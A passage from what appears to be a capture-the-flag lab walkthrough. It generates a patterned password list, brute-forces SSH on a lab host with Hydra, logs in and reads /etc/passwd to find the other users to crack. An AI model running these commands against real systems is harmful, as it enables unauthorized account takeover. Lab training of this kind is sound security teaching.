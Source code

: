     You should have received at least one valid username provided your list had at least one of the names below. These are common "Alice and Bob" fictional characters known in the computer industry:

    ```
    alice
    bob
    charlie
    dan
    erin
    frank
    grace
    heidi
    ivan
    judy
    mallory
    niaj
    ```

4. Now that we have at least one known user (let's use `alice`) we see in the NMAP results TCP port 22 is open on `10.1.1.21`. We know a username and we know a pattern of the password; let's create a list of possible passwords (`alice00` - `alice99`). Run the following command to create a list of 100 "alice" passwords.

    ```bash
    for i in $(seq -w 00 99); do echo alice${i} >> alice-passwords.txt; done
    ```

5. Attempt to log into `alice` with the following Hydra command.

    ```bash
    hydra -s 22 -V -l alice -P /home/user/alice-passwords.txt 10.1.1.21 ssh
    ```

6. We have Alice's password! Login to `10.1.1.21` with Alice's password via ssh.

    ```bash
    ssh alice@10.1.1.21
    ```

7. You can discover the other users by running the following command on the dam's mail server.

    ```bash
    cat /etc/passwd
    ```

    We now see all usernames: Alice, Bob, Charlie, etc.

    In a different tab, attempt to crack all user login information by running the commands below and changing the usernames.
    
    ```bash
    for i in $(seq -w 00 99); do echo alice${i} >> alice-passwords.txt; done
    hydra -s 22 -V -l alice -P /home/user/alice-passwords.txt 10.1.1.21 ssh
    ```

8. When you have cracked all the credentials, navigate to your first tab and run the command below to switch user into any user (e.g., Bob).
